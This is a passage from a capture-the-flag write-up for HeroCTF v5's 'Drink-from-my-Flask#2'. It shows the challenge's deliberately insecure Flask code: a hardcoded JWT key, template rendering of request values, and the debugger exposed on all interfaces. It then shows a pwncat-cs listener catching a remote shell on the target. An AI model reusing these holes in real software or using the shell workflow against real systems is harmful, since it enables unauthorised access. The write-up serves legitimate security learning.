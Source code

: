 ```python

    return resp

@app.route("/adminPage")
def admin():

    # Get JWT token from cookies
    token = request.cookies.get('token')

    # Decode JWT token
    try:
        decodedToken = jwt.decode(token, key="key", algorithms=["HS256"])
    except:
        return render_template_string("<h2>Invalid token</h2>"), 403
    
    # Get role
    role = decodedToken.get('role')
    if role is None:
        return render_template_string("<h2>Invalid token</h2>"), 403

    if role == "admin":
        return render_template_string("Welcome admin !"), 200

    return render_template_string("Sorry but you can't access this page, you're a '{role}'", role=role), 403


@app.errorhandler(werkzeug.exceptions.BadRequest)
def handle_page_not_found(e):
    return render_template_string("<h2>{page} was not found</h2><br><p>Only routes / and /adminPage are available</p>", page=request.path), 404

app.register_error_handler(404, handle_page_not_found)


app.run(debug=True, use_debugger=True, use_reloader=False, host="0.0.0.0", port=parser.parse_args().port)
```

**Since I want a stable shell and transfering files between my VM and the instance machine, I'll switch to [`pwncat-cs`](https://github.com/calebstewart/pwncat):**
```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/System/Drink-from-my-Flask#2)-[2023.05.13|22:49:10(HKT)]
└> pwncat-cs -lp 4444
/home/siunam/.local/lib/python3.11/site-packages/paramiko/transport.py:178: CryptographyDeprecationWarning: Blowfish has been deprecated
  'class': algorithms.Blowfish,
[22:49:11] Welcome to pwncat 🐈!                                                            __main__.py:164
[22:50:01] received connection from 127.0.0.1:35986                                              bind.py:84
[22:50:05] localhost:35986: registered new host w/ db                                        manager.py:957
(local) pwncat$                                                                                            
(remote) www-data@flask:/var/www/app$ whoami;hostname;id
www-data
flask
uid=33(www-data) gid=33(www-data) groups=33(www-data)
(remote) www-data@flask:/var/www/app$ 
```
